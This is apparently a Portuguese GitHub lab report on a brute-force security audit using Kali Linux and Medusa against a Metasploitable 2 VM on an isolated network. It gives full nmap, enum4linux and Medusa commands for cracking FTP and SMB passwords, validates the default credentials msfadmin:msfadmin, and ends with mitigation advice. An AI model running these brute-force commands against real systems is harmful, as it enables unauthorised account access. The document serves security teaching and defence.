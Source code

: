 # 🛡️ Relatório de Auditoria de Segurança: Força Bruta com Kali Linux e Medusa

## 📜 Visão Geral do Projeto

Este relatório documenta uma auditoria de segurança focada na simulação de ataques de **Força Bruta** contra serviços de rede comuns, utilizando as ferramentas **Kali Linux** e **Medusa**. O projeto visa demonstrar a criticidade do uso de credenciais robustas e a necessidade de mecanismos de defesa proativos.

**Alvo:** Máquina Virtual Metasploitable 2 (Ambiente de Teste Controlado)
**Ferramentas:** Kali Linux, Medusa, Nmap (para reconhecimento)

---

## ⚙️ I. Configuração do Ambiente e Reconhecimento

### 1. Topologia da Rede
* **Kali Linux (Atacante):** [192.168.227.129]
* **Metasploitable 2 (Alvo):** [192.168.227.128]
* **Tipo de Rede:** Host-Only.

### 2. Reconhecimento (Nmap)
* **Comando Nmap utilizado:** `nmap -sV 192.168.227.128`
* **Serviços Encontrados:** `ftp, ssh, telnet, smb...`

## 🧩 Requisitos e Preparação do Ambiente

**Pré-requisitos (na máquina atacante — Kali):**
- Kali Linux atualizado (rolling)
- Medusa (v2.x) instalado
- Hydra (opcional) / smbclient / enum4linux / nmap / tcpdump
- Wordlists dentro da pasta `wordlists/`
- Rede: VirtualBox Host-Only (Kali e Metasploitable na mesma rede interna)

**Configuração das VMs**
- Kali Linux (Atacante): IP ex.: `192.168.227.129`
- Metasploitable2 (Alvo): IP ex.: `192.168.227.128`
- Rede: tipo *Host-Only* (garante isolamento)

**Como reproduzir o laboratório (resumo)**
1. Inicie as duas VMs (Kali + Metasploitable2) em VirtualBox com adaptadores em Host-Only.
2. Confirme conectividade: `ping 192.168.227.128`
3. No Kali, verifique ferramentas instaladas:
   ```bash
   medusa -h | head -n 5
   nmap --version
   smbclient --version
   enum4linux -h
```
---

## ## II. Cenários de Ataque de Força Bruta

> **Observação:** Estes cenários foram executados em ambiente controlado (Metasploitable2) e documentados com evidências (logs e screenshots).

---

### Cenário 1: Quebra de Senha no Serviço FTP (Medusa)

| Protocolo | Porta | Wordlist Utilizada |
| :--- | :---: | :--- |
| FTP | 21 | wordlists/ftp_passwords.txt & users.txt |

**Alvo:** 192.168.227.128 (Metasploitable 2)  
**Ferramenta:** Medusa (`-M ftp`)  
**Objetivo:** Demonstrar força-bruta contra serviço FTP e validar credenciais obtidas.

#### Enumeração / Reconhecimento
```bash
# Reconhecimento rápido do serviço FTP
nmap -sV -p21 192.168.227.128 | tee nmap_ftp.txt

# Comando de Execução (Medusa)
medusa -M ftp -h 192.168.227.128 -U wordlists/users.txt -P wordlists/ftp_passwords.txt -t 4 -v 4 -f |& tee medusa_ftp_run.log

# Validação manual (exemplo) 
Use um cliente FTP para validar qualquer credencial encontrada:
ftp 192.168.227.128
# ou, se preferir, use um cliente que permita user%pass no comando:
# curl --ftp-ssl -u user:password ftp://192.168.227.128/
```
---

### Cenário 2: Quebra de Senha no Serviço SMB (Medusa)

| Protocolo | Porta | Wordlist Utilizada |
| :--- | :---: | :--- |
| SMB | 139 & 445 | wordlists/smb_passwords_small.txt & wordlists/users.txt |

**Alvo:** 192.168.227.128 (Metasploitable 2)  
**Módulo Medusa:** `smbnt`  
**Objetivo:** Demonstrar força-bruta / password spraying em SMB e validar credenciais obtidas.

#### Enumeração / Reconhecimento
```bash
# Enumerar usuários e shares (salvar saída para evidência)
enum4linux -a 192.168.227.128 | tee enum4linux_all.txt
enum4linux -U 192.168.227.128 | tee enum4linux_users.txt
smbclient -L //192.168.227.128 -N | tee smbclient_shares.txt

# Comando de Execução (Medusa)
`medusa -M smbnt -h 192.168.227.128 -U wordlists/users.txt -P wordlists/smb_passwords_small.txt -t 2 -v 4 -f |& tee medusa_smb_run.log

# Validação manual (exemplo obrigatório)
# Validar credenciais encontradas (ex.: msfadmin:msfadmin)
smbclient //192.168.227.128/IPC$ -U 'msfadmin%msfadmin' -W WORKGROUP -c 'ls; exit' | tee smb_validation_msfadmin.log

# Extra: extrair resultados do log do Medusa
# procurar linhas que indiquem sucesso
grep -E "SUCCESS|FOUND|LOGIN" -i medusa_smb_run.log || true
```
---

## III. Recomendações de Mitigação e Defesa

Os ataques de Força Bruta contra serviços como FTP e SMB foram bem-sucedidos devido à utilização de senhas fracas e à ausência de mecanismos de limitação de taxa de conexão. Para mitigar o risco, as seguintes ações defensivas são recomendadas:

### 1. Política de Senhas Fortes
* **Forçar Complexidade:** Implementar uma política de senhas que exija um comprimento mínimo (idealmente 14+ caracteres) e a utilização de uma combinação de letras maiúsculas, minúsculas, números e símbolos.
* **Proibição de Padrões:** Banir senhas padrão, comuns ou de dicionário (como "msfadmin", "password", "user").

### 2. Controles de Acesso e Autenticação
* **Bloqueio de IP (Rate Limiting):** Implementar ferramentas de controle de acesso como **Fail2Ban** no servidor. Essa ferramenta monitora logs de autenticação e bloqueia automaticamente endereços IP (o seu alvo é `192.168.227.128`) que tentarem realizar *logins* malsucedidos repetidamente em um curto espaço de tempo.
* **Restrição de Serviços:** Se um serviço (como o FTP ou SMB) não for essencial para o acesso externo, restrinja-o para ser acessível apenas a partir de endereços IP confiáveis na rede interna.

### 3. Criptografia e Segurança do Serviço
* **Desabilitar ou Substituir Serviços Não Criptografados:** O FTP transmite credenciais em texto claro. Substitua o FTP por **SFTP (SSH File Transfer Protocol)** ou **FTPS**, que criptografam a comunicação.
* **Atualização do SO e Serviços:** O Metasploitable 2 está utilizando versões antigas de serviços (como o vsftpd 2.3.4). Manter o sistema operacional e os serviços atualizados garante que vulnerabilidades conhecidas (exploits) sejam corrigidas.
